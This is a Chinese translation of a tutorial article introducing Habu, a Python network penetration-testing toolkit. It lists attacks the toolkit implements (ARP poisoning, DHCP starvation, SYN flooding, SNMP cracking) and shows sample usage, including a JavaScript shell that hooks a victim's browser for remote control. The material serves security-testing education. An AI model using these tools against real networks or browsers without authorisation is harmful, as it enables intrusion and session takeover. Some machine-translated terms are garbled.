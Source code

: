 # HABU——黑客和测试者网络渗透测试工具包

> 原文：<https://kalilinuxtutorials.com/habu-python-network/>

Habu 是一个 python 网络黑客工具包。这个工具的基本功能是帮助完成一些道德黑客和渗透测试的任务。它们中的大多数都与网络相关，对于那些想阅读源代码并从中学习的人来说，这些实现是易于理解的。

当前版本中实现的一些技术有:

*   ARP 中毒
*   ARP 嗅探
*   DHCP 发现
*   DHCP 饥饿
*   陆地攻击
*   SNMP 破解
*   子域识别
*   合成液泛
*   TCP 标志分析
*   TCP ISN 分析
*   TCP 端口扫描
*   社交网络上的用户名检查
*   虚拟主机识别
*   网络技术识别

**也可理解为[SQLMAP–数据库的枚举&来自易受攻击的 Web 表单的用户](https://kalilinuxtutorials.com/sqlmap2/)**

## **哈布安装**

**卡莉 Linux:**

您可以安装为 Kali Linux 创建的软件包。见[此处](https://github.com/portantier/habu/releases)

**Python 包(PyPi):**

Habu 在 PyPi 上，所以可以用 pip 直接安装:

```
`$ pip3 install habu` 
```

### **habu.usercheck:检查社交网络上的用户名**

这个命令检查给定的用户名是否存在于各种社交网络和其他流行的网站上。

```
`$ habu.usercheck portantier
{
    "aboutme": "https://about.me/portantier",
    "disqus": "https://disqus.com/by/portantier/",
    "github": "https://github.com/portantier/",
    "ifttt": "https://ifttt.com/p/portantier",
    "lastfm": "https://www.last.fm/user/portantier",
    "medium": "https://medium.com/@portantier",
    "pastebin": "https://pastebin.com/u/portantier",
    "pinterest": "https://in.pinterest.com/portantier/",
    "twitter": "https://twitter.com/portantier",
    "vimeo": "https://vimeo.com/portantier"
}` 
```

### **habu.jshell:使用 WebSockets 的 JavaScript Shell】**

这是 Habu 中最复杂的命令之一。当您启动它时，会绑定一个端口(默认值:3333)并侦听 HTTP 连接。如果接收到连接，则发送一个 JavaScript 代码，该代码打开一个 WebSocket，该 web socket 可用于向连接的浏览器发送命令。

您可以直接在 shell 中编写命令，或者使用插件，即简单的外部 JavaScript 文件。

使用 habu.jshell 你可以完全控制一个网页浏览器。

**注意:**模块的完整文档将与主文档分开，因为该模块有很多选项和命令。

```
**$ habu.jshell 
>>> Listening on 192.168.0.10:3333\. Waiting for a victim connection.
>>> HTTP Request received from 192.168.0.15\. Sending hookjs
>>> Connection from 192.168.0.15
$ _sessions
0 * 192.168.0.15:33432 Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0
$ _info
{
    "user-agent": "Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0",
    "location": "http://192.168.0.10:3333/",
    "java-enabled": false,
    "platform": "Linux x86_64",
    "app-code-name": "Mozilla",
    "app-name": "Netscape",
    "app-version": "5.0 (X11)",
    "cookie-enabled": true,
    "language": "es-AR",
    "online": true
}
$ document.location
http://192.168.0.10:3333/** 
```

### **habu.vhosts:获取一个 IP 地址的 vhosts**

此命令使用 Bing 来查询托管在同一 IP 地址上的网站。

```
**$ habu.vhosts www.telefonica.com
www.telefonica.com -> 212.170.36.79
[
    'www.telefonica.es',
    'universitas.telefonica.com',
    'www.telefonica.com',
]** 
```

### **habu.webid:识别网络技术**

该命令使用 Wappalyzer apps.json 数据库来识别 web 应用程序中使用的技术。

关于 [Wappalyzer](https://github.com/AliasIO/Wappalyzer/) 的更多信息。

**注意:**这个工具只发送一个请求。所以，是隐身而不可疑。

```
**$ habu.webid https://woocomerce.com
{
    "Nginx": {
        "categories": [
            "Web Servers"
        ]
    },
    "PHP": {
        "categories": [
            "Programming Languages"
        ]
    },
    "WooCommerce": {
        "categories": [
            "Ecommerce"
        ],
        "version": "6.3.1"
    },
    "WordPress": {
        "categories": [
            "CMS",
            "Blogs"
        ]
    },
}** 
```

[![](img//d861a9096555aeb1980fc054015933d7.png)](https://github.com/portantier/habu#installation)